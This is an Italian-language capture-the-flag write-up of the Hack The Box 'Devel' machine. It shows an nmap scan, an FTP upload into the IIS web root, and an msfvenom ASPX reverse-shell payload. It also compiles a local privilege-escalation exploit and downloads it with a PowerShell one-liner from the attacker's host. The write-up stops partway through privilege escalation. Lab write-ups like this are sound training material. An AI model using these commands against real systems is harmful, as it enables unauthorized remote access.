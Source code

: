 # Devel

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.5
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Il risultato della scansione è il seguente:

```text
Nmap scan report for 10.10.10.5
Host is up (0.040s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|7|2008|Vista|8.1 (90%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_8.1
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows Embedded Standard 7 (89%), Microsoft Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (89%), Microsoft Windows 7 (89%), Microsoft Windows 7 Professional or Windows 8 (89%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (89%), Microsoft Windows Vista SP2 (89%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (88%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration
Dalla fase precedente scopro che è possibile accedere tramite ftp in modalità anonima:

<p align="center">
  <img src="/Immagini/Windows-Box/Devel/devel-2.png"/>
</p>

Successivamente, visito la pagina http://10.10.10.5/:

<p align="center">
  <img src="/Immagini/Windows-Box/Devel/devel-1.png"/>
</p>

Provo a navigare tra le pagine scoperte precedentemente e capisco che posso sfruttare il fatto che il server ftp si trova nella stessa root del server http.
Questo potrebbe permettere di ottenere una reverse shell mediante il semplice caricamento di un file tramite ftp.

Faccio una prova creando questo file _prova.html_:

```text
<html><body>PROVAAAAA</body></html>
```

Lo carico e vado sulla pagina http://10.10.10.5/prova.html:

<p align="center">
  <img src="/Immagini/Windows-Box/Devel/devel-3.png"/>
</p>

**Funziona!**

## Exploitation
Facendo una rapida ricerca scopro che il web server windows IIS versione 7.5 gira si basa su ASPX (ASP.NET). Quindi tramite _msfvenom_ genero il payload per la reverse-shell:

```text
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.9 LPORT=9999 -o reverse-shell.aspx
```

Avvio un listener sulla porta 9999 e visito la pagina http://10.10.10.5/reverse-shell.aspx:

<p align="center">
  <img src="/Immagini/Windows-Box/Devel/devel-4.png"/>
</p>

**Sono dentro!**

## Privilege Escalation
Purtroppo non ho accesso a nessuno degli account necessari per ottenere le flag.

Lancio il comando _systeminfo_:

<p align="center">
  <img src="/Immagini/Windows-Box/Devel/devel-5.png"/>
</p>

Scopro quindi che sopra c'è windows 7 e che non sono stati fatti aggiornamenti. Quindi vado alla ricerca di vulnerabilità da sfruttare per effettuare privilege escalation.

Tramite _searchsploit_ trovo uno exploit che fa quello che mi serve.

All'interno del file c'è il comando necessario per compilarlo. Per farlo occorre aver installato mingw-w64:

```text
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

Avvio un server python sulla porta 9444 e scarico il file appena creato nel seguente modo:

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.5:9444/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
```

Ottengo una shell migliore con questo comando:

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

...


## Credits

...
